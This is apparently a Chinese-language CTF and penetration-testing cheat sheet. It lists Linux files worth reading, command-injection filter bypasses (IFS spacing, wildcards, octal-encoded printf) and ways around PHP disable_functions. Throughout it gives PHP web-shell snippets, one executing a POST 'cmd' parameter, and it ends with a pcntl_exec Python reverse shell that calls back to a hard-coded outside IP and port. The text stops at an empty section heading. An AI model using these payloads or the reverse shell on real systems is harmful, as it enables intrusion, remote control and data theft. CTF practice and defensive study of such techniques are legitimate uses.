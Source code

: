 ### 1-Linux系统利用

#### 常用文件夹

```shell
/etc/passwd   #用户信息
/var/www/html/index.php #常见网页文件夹
/proc/self/cmdline   #存储输入过的命令
/var/log/nginx/access.log #nginx访问日志
```

#### 命令注入

```shell
cd /flag;cat flag.php #堆叠指令
cat /flag | base64
l\s
ca\t
base64 flag.txt
#展示当前文件夹下所有文件内容e
cat$IFS$9`ls`
#空格替换
<  <> %09(tab)、%20、$IFS$9、$IFS$1、${IFS}、$IFS
#分隔符;
%0a
#执行命令source用.替换，?时通配符
. /??p/p?p??????
#一个单独的*可以执行命令，当前文件夹下nl o.txt
*  #相当于执行nl o.txt
#>写入空文件
>nl #写入一个名为nl的文件
```

#### 读取文件内容

```shell
cat
tac
nl flag.txt
#展示当前文件夹下所有文件内容e
cat$IFS$9`ls`
#绕过编码问题
base64 flag.txt
#linux中的`printf`函数支持字符串的8进制表示的读入：
$(printf${IFS}"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")
\42\143\141\164\40\57\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160
#等价于
$(printf${IFS}"cat /flag_1s_here/flag_831b69012c67b35f.php")
```



### 2-Getshell中遇到disable Functions的处理

详解见：https://www.freebuf.com/articles/network/263540.html

很多运维人员会禁用PHP的一些“危险”函数，例如eval、exec、system等，将其写在php.ini配置文件中，就是我们所说的disable_functions了

#### 黑名单绕过，使用不常用函数尝试执行shell

exec()

```php
<?php
echo exec('whoami');
?>
```

shell_exec()

```php
<?php
echo shell_exec('whoami');
?>
```

system()

```php
<?php
system('whoami');
?>
```

passthru()

```php
<?php
passthru("whoami");
?>
```

popen()

```php
<?php
$command=$_POST['cmd'];
$handle = popen($command,"r");
while(!feof($handle)){        
    echo fread($handle, 1024);  //fread($handle, 1024);
}  
pclose($handle);
?>
```

proc_open()

```php
<?php
$command="ipconfig";
$descriptorspec = array(1 => array("pipe", "w"));
$handle = proc_open($command ,$descriptorspec , $pipes);
while(!feof($pipes[1])){     
    echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
}
?>
```

#### 利用pcntl_exec函数

还有一个比较常见的易被忽略的函数就是pcntl_exec。

**使用条件：**

**PHP安装并启用了pcntl插件**

pcntl是linux下的一个扩展，可以支持php的多线程操作。很多时候会碰到禁用exec函数的情况，但如果运维人员安全意识不强或对PHP不甚了解，则很有可能忽略pcntl扩展的相关函数。

利用pcntl_exec()执行test.sh：

```php
<?php
if(function_exists('pcntl_exec')) {
   pcntl_exec("/bin/bash", array("/tmp/test.sh"));
} else {
       echo 'pcntl extension is not support!';
}
?>
```

由于pcntl_exec()执行命令是没有回显的，所以其常与python结合来反弹shell

```php
<?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("132.232.75.90",9898));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
```



### 3-RCE中的技巧
